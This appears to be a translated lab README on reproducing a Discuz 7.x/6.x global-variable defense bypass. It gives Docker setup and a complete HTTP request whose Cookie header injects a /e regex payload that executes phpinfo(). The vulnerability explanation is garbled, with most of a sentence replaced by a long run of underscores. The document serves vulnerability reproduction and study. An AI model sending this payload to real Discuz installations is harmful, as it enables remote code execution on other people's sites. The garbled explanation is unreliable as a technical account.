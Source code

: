 # Discuz 7.x/6.x Global Variable Defense Bypass Causes Code Execution

Since the default value of `request_order` in the php.ini version of php5.3.x is GP, ``_______________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________ Variables that cause code execution vulnerabilities.

For details, please refer to:

- https://www.secpulse.com/archives/2338.html

## vulnerability environment

Run the following command to start Discuz 7.2:

```
Docker-compose up -d
```

After startup, visit `http://your-ip:8080/install/` to install discuz, fill in the database address `db`, the database name is `discuz`, and the database account password is `root`.

![](1.png)

## Vulnerability recurrence

After the installation is successful, directly find an existing post, send a packet to it, and add `GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray ]=phpinfo();`:

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close


```

Visible, phpinfo has been successfully executed:

![](2.png)

> The online article says that you need a post with an emoticon. The actual test found that you don't need it. You still need to read the code to explain why.